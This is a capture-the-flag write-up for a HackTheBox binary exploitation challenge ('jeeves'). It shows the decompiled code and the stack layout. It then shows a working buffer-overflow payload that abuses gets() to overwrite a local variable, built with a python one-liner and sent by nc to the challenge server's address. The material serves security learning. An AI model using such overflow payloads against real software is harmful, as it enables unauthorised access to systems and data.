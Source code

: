 # Analysis

  

```shell

┌──(kali㉿kali)-[~/Desktop/HTB_BE_track]
└─$ file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped

```
- 64 bit
- Not Stripped

---

## Ghidra Decompile

```c

target = -0x21523f2d;
printf("Hello, good sir!\nMay I have your name? ");
gets(input);
printf("Hello %s, hope you have a good day!\n",input);

if (target == 0x1337bab3) {
	local_18 = malloc(0x100);
	local_1c = open("flag.txt",0);
	read(local_1c,local_18,0x100);
	printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
	close(local_1c);
}

```

**gets** function is used here which is vulnerable to **BOF** attacks since it don't check the size of input.

**target** variable value is being checked if it's equal to `0x1337bab3` then we can read the Flag.

But in code **target** is assigned value `-0x21523f2d`.It seems to be signed integer but in assemble we can see the real picture

```assembly
MOV dword ptr [RBP + target],0xdeadc0d3
```

Checking the Stack:

```text
Stack[-0xc]:4 target
Stack[-0x18]:8 local_18
Stack[-0x1c]:4 local_1c
Stack[-0x48] input
```

Since `input` is above the `target` in stack we can overflow and change the value in `target`


---

# Exploitation

First we need the offset. We can see in stack that **input** variable starts from `48` below **rbp** can **target** starts from `c` and the difference is `60` bytes.So our payload should be something like

```text
<60bytes random> + <Desired_value>
```

Use pwntools to arrange our desired value

```python
p64(0x1337bab3)
```

Now creating our payload

```shell
┌──(kali㉿kali)-[~/Desktop/HTB_BE_track]
└─$ python2 -c "print('a'*60 + '\xb3\xba7\x13\x00\x00\x00\x00')" > pay

┌──(kali㉿kali)-[~/Desktop/HTB_BE_track]
└─$ nc 64.227.39.88 31654 < pay

```

> Used python3 for pwntools :| to format the value accoring to 64bit arc (p64 function)
> And used python2 for creating final payload since python3 was having some issues
